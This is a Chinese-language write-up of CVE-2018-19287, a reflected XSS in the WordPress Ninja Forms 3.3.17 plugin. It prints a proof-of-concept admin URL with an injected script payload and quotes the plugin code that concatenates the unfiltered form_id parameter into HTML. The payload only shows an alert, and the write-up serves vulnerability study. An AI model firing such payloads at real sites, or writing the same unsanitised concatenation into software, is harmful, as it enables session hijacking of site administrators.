


# （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

> 原文：[http://book.iwonder.run/0day/Wordpress/24.html](http://book.iwonder.run/0day/Wordpress/24.html)

## 一、漏洞简介

Ninja Forms 是 WordPress 的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用 Ninja Forms 作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从 exploit-db 上复制的 POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制 POC 到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个 POC 的图：



下图是触发第二个 POC 的图：


下图是触发第三个 POC 的图：


### 漏洞分析过程

笔者直接从 POC 方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了 POC3 的成因。

通过 POC 查找关键词 nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是 Submissions.php 部分内容：



通过粗略的阅读，发现这个函数是导致 POC3 成功弹窗的关键。

下图是 Submissions.php 文件第 71-104 行内容：

```
public function change_views( $views )

{

    // Remove our unused views.

    unset( $views[ 'mine' ] );

    unset( $views[ 'publish' ] );

    // If the Form ID is not empty...

    if( ! empty( $_GET[ 'form_id' ] ) ) {

        // ...populate the rest of the query string.

        $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

    } else {

        // ...otherwise send in an empty string.

        $form_id = '';

    }

    // Build our new views.

    $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                    . __( 'Completed', 'ninja-forms' ) . '</a>';

    $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                        . __( 'Trashed', 'ninja-forms' ) . '</a>';

    // Checks to make sure we have a post status.

    if( ! empty( $_GET[ 'post_status' ] ) ) {

        // Depending on the domain set the value to plain text.

        if ( 'all' == $_GET[ 'post_status' ] ) {

            $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

        } else if ( 'trash' == $_GET[ 'post_status' ] ) {

            $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

        }

    }

    return $views;

} 
```

从上面代码，我们可以看到，form_id 并没有被过滤，导致 XSS 存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> [https://www.exploit-db.com/exploits/45880/](https://www.exploit-db.com/exploits/45880/)
> 
> [https://www.freebuf.com/vuls/190411.html](https://www.freebuf.com/vuls/190411.html)

